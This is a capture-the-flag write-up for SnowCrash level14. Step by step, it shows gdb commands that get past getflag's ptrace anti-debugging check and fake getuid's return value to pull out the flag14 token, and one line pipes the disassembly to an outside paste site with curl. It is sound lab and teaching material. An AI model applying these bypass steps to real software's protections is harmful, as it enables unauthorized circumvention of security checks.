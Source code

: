 # Level14

```bash
level14@SnowCrash:~$ ls -lA
total 12
-r-x------ 1 level14 level14  220 Apr  3  2012 .bash_logout
-r-x------ 1 level14 level14 3518 Aug 30  2015 .bashrc
-r-x------ 1 level14 level14  675 Apr  3  2012 .profile
```

```bash
level14@SnowCrash:~$ which getflag
/bin/getflag
```

```bash
level14@SnowCrash:~$ objdump -d /bin/getflag |  curl -F 'f:1=<-' ix.io
http://ix.io/2aQN
level14@SnowCrash:~$ gdb /bin/getflag
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /bin/getflag...(no debugging symbols found)...done.
(gdb) run
Starting program: /bin/getflag
You should not reverse this
[Inferior 1 (process 2266) exited with code 01]
(gdb)
```

Running `strings` on the program tells us the password are stored in encrypted strings, we can think the program calls getuid() to know which user is running the program and decodes the password of the associated uid.

```bash
level14@SnowCrash:~$ strings /bin/getflag
...
/proc/self/maps
/proc/self/maps is unaccessible, probably a LD_PRELOAD attempt exit..
libc
Check flag.Here is your token :
You are root are you that dumb ?
I`fA>_88eEd:=`85h0D8HE>,D
7`4Ci4=^d=J,?>i;6,7d416,7
<>B16\AD<C6,G_<1>^7ci>l4B
B8b:6,3fj7:,;bh>D@>8i:6@D
?4d@:,C>8C60G>8:h:Gb4?l,A
G8H.6,=4k5J0<cd/D@>>B:>:4
H8B8h_20B4J43><8>\ED<;j@3
78H:J4<4<9i_I4k0J^5>B1j`9
bci`mC{)jxkn<"uD~6%g7FK`7
Dc6m~;}f8Cj#xFkel;#&ycfbK
74H9D^3ed7k05445J0E4e;Da4
70hCi,E44Df[A4B/J@3f<=:`D
8_Dw"4#?+3i]q&;p6 gtw88EC
boe]!ai0FB@.:|L6l@A?>qJ}I
g <t61:|4_|!@IF.-62FH&G~DCK/Ekrvvdwz?v|
Nope there is no token here for you sorry. Try again :)
00000000 00:00 0
LD_PRELOAD detected through memory maps exit ..
;*2$"$
...
```

### Exploit

- [Full disassembly](http://ix.io/2aQN)

- Start gdb with getflag

```bash
level14@SnowCrash:~$ gdb /bin/getflag
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /bin/getflag...(no debugging symbols found)...done.
```

- Place a breakpoint for the next ptrace call, checking if the program is running in a debugger

```bash
(gdb) break ptrace
Breakpoint 1 at 0x8048540
```

- Start the program until the breakpoint is reached

```bash
(gdb) run
Starting program: /bin/getflag

Breakpoint 1, 0xb7f146d0 in ptrace () from /lib/i386-linux-gnu/libc.so.6
```

- Step in the ptrace function and step until the end of it

```bash
(gdb) si
0xb7f146d3 in ptrace () from /lib/i386-linux-gnu/libc.so.6

(gdb) s
Single stepping until exit from function ptrace,
which has no line number information.
0x0804898e in main ()
```

- Replace the return of the ptrace function to simulate we're not running this in a debugger

```bash
(gdb) info registers
eax            0xffffffff	-1
ecx            0xb7e2b900	-1209878272
edx            0xffffffc8	-56
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff5f0	0xbffff5f0
ebp            0xbffff718	0xbffff718
esi            0x0	0
edi            0x0	0
eip            0x804898e	0x804898e <main+72>
eflags         0x200282	[ SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) set $eax = 0
```

- Place the next breakpoint until the getuid() call, which will verify we're running the program with the `flagXX` user

```bash
(gdb) break getuid
Breakpoint 2 at 0xb7ee4cc0
```

- Continue the execution until the next breakpoint

```bash
(gdb) continue
Continuing.

Breakpoint 2, 0xb7ee4cc0 in getuid () from /lib/i386-linux-gnu/libc.so.6
```

- Step in the getuid() function and step until the end of it

```bash
(gdb) si
0xb7ee4cc5 in getuid () from /lib/i386-linux-gnu/libc.so.6
(gdb) s
Single stepping until exit from function getuid,
which has no line number information.
0x08048b02 in main ()
```

- Replace the return of the getuid() function with the uid of the `flag14` user

```bash
(gdb) info registers
eax            0x7de	2014
ecx            0xb7fda000	-1208115200
edx            0x20	32
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff5f0	0xbffff5f0
ebp            0xbffff718	0xbffff718
esi            0x0	0
edi            0x0	0
eip            0x8048b02	0x8048b02 <main+444>
eflags         0x200246	[ PF ZF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) set $eax = 3014
```

- Continue the execution of the program

```bash
(gdb) continue
Continuing.
Check flag.Here is your token : 7QiHafiNa3HVozsaXkawuYrTstxbpABHD8CPnHJ
[Inferior 1 (process 2168) exited normally]
(gdb)
The program is not being run.
```


### Finish the project !

```bash
level14@SnowCrash:~$ su flag14
Password: <<< '7QiHafiNa3HVozsaXkawuYrTstxbpABHD8CPnHJ'
Congratulation. Type getflag to get the key and send it to me the owner of this livecd :)

flag14@SnowCrash:~$ getflag
Check flag.Here is your token : 7QiHafiNa3HVozsaXkawuYrTstxbpABHD8CPnHJ
```
